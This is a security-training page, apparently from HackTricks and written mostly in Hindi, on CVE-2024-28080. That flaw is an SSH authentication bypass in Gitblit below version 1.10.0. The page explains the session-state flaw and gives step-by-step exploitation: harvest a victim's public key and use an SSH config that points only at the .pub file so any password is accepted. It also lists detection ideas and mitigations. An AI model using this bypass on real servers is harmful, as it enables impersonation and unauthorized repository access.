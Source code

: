 # Gitblit Embedded SSH Auth Bypass (CVE-2024-28080)

{{#include ../../banners/hacktricks-training.md}}

## सारांश

CVE-2024-28080 Gitblit के embedded SSH service में एक authentication bypass है जो Apache MINA SSHD के साथ एकीकरण करते समय session state के गलत हैंडलिंग के कारण होता है। यदि किसी उपयोगकर्ता खाते में कम से कम एक SSH public key पंजीकृत है, तो कोई attacker जो username और उस उपयोगकर्ता की किसी भी public key को जानता है, private key और password के बिना authenticate कर सकता है।

- प्रभावित: Gitblit < 1.10.0 (observed on 1.9.3)
- ठीक किया गया: 1.10.0
- शोषण करने की आवश्यकताएँ:
- इंस्टेंस पर Git over SSH सक्षम होना चाहिए
- लक्षित खाते में Gitblit में कम से कम एक SSH public key पंजीकृत हो
- Attacker को लक्षित उपयोगकर्ता का username और उनकी किसी एक public key का पता होना चाहिए (आम तौर पर खोजने योग्य, उदाहरण: https://github.com/<username>.keys)

## Root cause (state leaks between SSH methods)

RFC 4252 के अनुसार, public‑key authentication दो चरणों में होता है: सर्वर पहले यह जांचता है कि दिया गया public key किसी username के लिए स्वीकार्य है या नहीं, और केवल signature के साथ challenge/response के बाद ही वह उपयोगकर्ता को authenticate करता है। MINA SSHD में, PublickeyAuthenticator दो बार कॉल किया जाता है: key acceptance पर (अभी signature नहीं) और बाद में जब client signature वापस करता है।

Gitblit का PublickeyAuthenticator पहले, pre‑signature कॉल पर session context को बदल देता था — authenticated UserModel को session से bind कर देता था और true लौटाता था ("key acceptable")। जब बाद में authentication password पर fallback हुआ, तो PasswordAuthenticator ने उस mutated session state पर भरोसा किया और short‑circuit करते हुए password को validate किए बिना true लौटाया। परिणामस्वरूप, किसी भी password (खाली भी) को उसी user के लिए पहले public‑key "acceptance" के बाद स्वीकार कर लिया गया।

उच्च‑स्तरीय त्रुटिपूर्ण प्रवाह:

1) Client username + public key पेश करता है (अभी signature नहीं)
2) Server उस key को user का मानता है और समयपूर्वक user को session से जोड़ देता है, true लौटाता है ("acceptable")
3) Client sign नहीं कर पाता (private key नहीं), इसलिए auth password पर fallback हो जाता है
4) Password auth session में पहले से मौजूद user देखता है और बिना शर्त success लौटाता है

## चरण‑दर‑चरण शोषण

- लक्षित का username और उनकी किसी एक public key एकत्र करें:
- GitHub सार्वजनिक keys https://github.com/<username>.keys पर एक्सपोज़ करता है
- सार्वजनिक सर्वर अक्सर authorized_keys एक्सपोज़ करते हैं
- OpenSSH को इस तरह कॉन्फ़िगर करें कि वह केवल public half प्रस्तुत करे ताकि signature generation विफल हो, जिससे server पर public‑key acceptance पथ ट्रिगर करते हुए auth password पर fallback मजबूर हो।

Example SSH client config (no private key available):
```sshconfig
# ~/.ssh/config
Host gitblit-target
HostName <host-or-ip>
User <victim-username>
PubkeyAuthentication yes
PreferredAuthentications publickey,password
IdentitiesOnly yes
IdentityFile ~/.ssh/victim.pub   # public half only (no private key present)
```
कनेक्ट करें और पासवर्ड प्रॉम्प्ट पर Enter दबाएँ (या कोई भी स्ट्रिंग टाइप करें):
```bash
ssh gitblit-target
# or Git over SSH
GIT_SSH_COMMAND="ssh -F ~/.ssh/config" git ls-remote ssh://<victim-username>@<host>/<repo.git>
```
Authentication succeeds because the earlier public‑key phase mutated the session to an authenticated user, and password auth incorrectly trusts that state.

Note: If ControlMaster multiplexing is enabled in your SSH config, subsequent Git commands may reuse the authenticated connection, increasing impact.

## Impact

- Full impersonation of any Gitblit user with at least one registered SSH public key
- Read/write access to repositories per victim’s permissions (source exfiltration, unauthorized pushes, supply‑chain risks)
- Potential administrative impact if targeting an admin user
- Pure network exploit; no brute force or private key required

## Detection ideas

- Review SSH logs for sequences where a publickey attempt is followed by a successful password authentication with an empty or very short password
- Look for flows: publickey method offering unsupported/mismatched key material followed by immediate password success for the same username

## Mitigations

- Upgrade to Gitblit v1.10.0+
- Until upgraded:
- Disable Git over SSH on Gitblit, or
- Restrict network access to the SSH service, and
- Monitor for suspicious patterns described above
- Rotate affected user credentials if compromise is suspected

## General: abusing SSH auth method state‑leakage (MINA/OpenSSH‑based services)

Pattern: यदि किसी server का public‑key authenticator pre‑signature "key acceptable" चरण के दौरान user/session state को mutate करता है और अन्य authenticators (जैसे password) उस state पर भरोसा करते हैं, तो आप authentication को निम्न तरीके से bypass कर सकते हैं:

- Presenting a legitimate public key for the target user (no private key)
- Forcing the client to fail signing so the server falls back to password
- Supplying any password while the password authenticator short‑circuits on leaked state

Practical tips:

- Public key harvesting at scale: सामान्य स्रोतों से public keys खींचें, जैसे https://github.com/<username>.keys, organizational directories, team pages, leaked authorized_keys
- Forcing signature failure (client‑side): IdentityFile को केवल .pub पर पॉइंट करें, IdentitiesOnly yes सेट करें, और PreferredAuthentications को publickey फिर password शामिल करने दें
- MINA SSHD integration pitfalls:
- PublickeyAuthenticator.authenticate(...) must not attach user/session state until the post‑signature verification path confirms the signature
- PasswordAuthenticator.authenticate(...) must not infer success from any state mutated during a prior, incomplete authentication method

Related protocol/design notes and literature:
- SSH userauth protocol: RFC 4252 (publickey method is a two‑stage process)
- Historical discussions on early acceptance oracles and auth races, e.g., CVE‑2016‑20012 disputes around OpenSSH behavior

## References

- [Gitblit CVE-2024-28080: SSH public‑key fallback to password authentication bypass (Silent Signal blog)](https://blog.silentsignal.eu/2025/06/14/gitblit-cve-CVE-2024-28080/)
- [Gitblit v1.10.0 release notes](https://github.com/gitblit-org/gitblit/releases/tag/v1.10.0)
- [Apache MINA SSHD project](https://mina.apache.org/sshd-project/)
- [PublickeyAuthenticator API](https://svn.apache.org/repos/infra/websites/production/mina/content/sshd-project/apidocs/org/apache/sshd/server/auth/pubkey/PublickeyAuthenticator.html)
- [RFC 4252: The Secure Shell (SSH) Authentication Protocol](https://datatracker.ietf.org/doc/html/rfc4252)


{{#include ../../banners/hacktricks-training.md}}
